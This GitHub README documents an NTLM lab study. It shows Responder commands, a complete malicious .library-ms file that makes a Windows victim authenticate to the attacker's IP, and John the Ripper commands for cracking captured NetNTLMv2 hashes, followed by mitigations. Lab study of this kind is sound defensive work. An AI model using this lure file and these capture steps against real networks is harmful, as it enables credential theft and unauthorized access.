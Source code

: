 # NTLM Security Research

## Overview

This repository contains a comprehensive analysis of **NTLM authentication vulnerabilities** with a focus on **NTLM relay attacks** and methods to capture and crack NTLM hashes. The tests were performed in a controlled environment using **Kali Linux** as the attacker machine and **Windows 10** in a **workgroup setup** as the target machine. This project aims to demonstrate how attackers exploit NTLM authentication flaws and how defenders can mitigate these risks.

### Objectives:
- Understand and analyze the NTLM authentication process.
- Demonstrate NTLM relay attacks and their potential impact.
- Capture NTLM hashes and explore methods for cracking them.
- Provide mitigation strategies to enhance security against NTLM-based vulnerabilities.

## Table of Contents

1. [Introduction](#introduction)
2. [Lab Setup](#lab-setup)
3. [NTLM Authentication Overview](#ntlm-authentication-overview)
4. [NTLM Relay Attack](#ntlm-relay-attack)
5. [Hash Capture and Cracking](#hash-capture-and-cracking)
6. [Mitigation Strategies](#mitigation-strategies)
7. [Conclusion](#conclusion)
8. [References](#references)

## Introduction

**NTLM (NT LAN Manager)** is a set of Microsoft security protocols used for authentication in Windows environments. While still widely used, NTLM contains several vulnerabilities that can be exploited by attackers. The goal of this research is to provide a detailed understanding of these vulnerabilities, particularly focusing on **NTLM relay attacks**, **hash capturing**, and **cracking techniques**.

This repository presents the results of practical tests conducted in a **workgroup environment** (rather than a domain-based setup), highlighting real-world security risks.

## Lab Setup

The testing environment consists of two virtual machines:
- **Kali Linux** (attacker machine)
- **Windows 10** (target machine, in a workgroup setup)

### Kali Linux Configuration:
- **IP Address**: 192.168.56.101
- **Tools**: Responder, Metasploit, John the Ripper, Hashcat

### Windows 10 Configuration:
- **IP Address**: 192.168.56.102
- **Workgroup Setup**: No Active Directory
- **NTLM Authentication**: Enabled

Both machines are connected via a **Host-Only** network to simulate an isolated, controlled testing environment.

## NTLM Authentication Overview

NTLM is an authentication protocol that uses a **challenge-response** mechanism to authenticate users. Despite being a legacy protocol, it is still in use today, often in environments where older Windows systems or configurations are required.

### NTLM Authentication Process:
1. **Client sends a request** to the server for access.
2. **Server sends a challenge** back to the client.
3. **Client sends a response** using a hashed value of the user's password.
4. **Server validates** the response and grants access if correct.

### NTLM Vulnerabilities:
- **Weak Hashing**: NTLM hashes can be easily cracked if intercepted.
- **NTLM Relay Attacks**: Attackers can intercept and relay NTLM authentication messages to gain unauthorized access.

### Types of NTLM Authentication:
- **LM Hashes**: Deprecated and very insecure.
- **NTLMv1**: Older version with known vulnerabilities.
- **NTLMv2**: More secure but still vulnerable to relay attacks if not properly configured.

## NTLM Relay Attack

### What is an NTLM Relay Attack?

An NTLM relay attack involves an attacker intercepting and relaying NTLM authentication messages between a client and a server. This allows the attacker to authenticate as the victim on other machines without needing to know their password.

### Steps for Performing an NTLM Relay Attack:

1. **Configure Responder on Kali Linux**:
   Responder listens for NTLM authentication requests on the network and can capture them.
   ```bash
   sudo responder -I eth0
   ```

2. **Create Malicious `.library-ms` File**:
   This file can be used to trick the victim into sending NTLM authentication requests.
   ```xml
   <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
     <name>SharedDocs</name>
     <version>6</version>
     <isLibraryPinned>true</isLibraryPinned>
     <iconReference>imageres.dll,-1003</iconReference>
     <templateInfo>
       <folderType>Documents</folderType>
     </templateInfo>
     <searchConnectorDescriptionList>
       <searchConnectorDescription>
         <simpleLocation>
           <url>\\192.168.56.101\anything</url>
         </simpleLocation>
       </searchConnectorDescription>
     </searchConnectorDescriptionList>
   </libraryDescription>
   ```

3. **Capture NTLM Hashes**:
   When the victim interacts with the malicious file, Responder captures their NTLM hash.

4. **Crack NTLM Hash**:
   Use **John the Ripper** or **Hashcat** to crack the captured hash.
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
   ```

---

## Hash Capture and Cracking

In this section, the process of capturing NTLM hashes and cracking them using tools like **John the Ripper** and **Hashcat** is demonstrated.

### Steps for Capturing NTLM Hashes:
1. **Run Responder**:
   ```bash
   sudo responder -I eth0
   ```

2. **Crack the Captured Hashes**:
   - Hashes are saved in the `/usr/share/responder/logs` directory.
   - Use **John the Ripper** for cracking:
   ```bash
   john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
   ```

---

## Mitigation Strategies

### How to Protect Against NTLM Relay Attacks:
1. **Disable NTLM**: Use **Kerberos** authentication instead of NTLM whenever possible.
   - Configure **Group Policies** to disable NTLM or enforce **NTLMv2**.

2. **Enforce SMB Signing**: Require SMB signing to protect against tampering with SMB traffic.

3. **Use Network Segmentation**: Isolate critical systems to reduce the attack surface.

4. **Deploy Multi-Factor Authentication (MFA)**: Add an additional layer of security to authentication processes.

5. **Update Systems Regularly**: Ensure that Windows systems are patched with the latest security updates to protect against known vulnerabilities.

---

## Conclusion

This repository provides a detailed demonstration of **NTLM relay attacks**, capturing **NTLM hashes**, and cracking them using popular tools. By understanding these vulnerabilities, organizations can take appropriate steps to mitigate the risks associated with NTLM authentication.

## References

- [NTLM Relay Attack Overview]([https://www.rapid7.com/db/vulnerabilities/](https://www.semperis.com/blog/how-to-defend-against-ntlm-relay-attack/))
- [Responder GitHub Repository](https://github.com/SpiderLabs/Responder)
- [John the Ripper Documentation](https://www.openwall.com/john/)
- [Microsoft Security Documentation](https://docs.microsoft.com/en-us/security-updates)
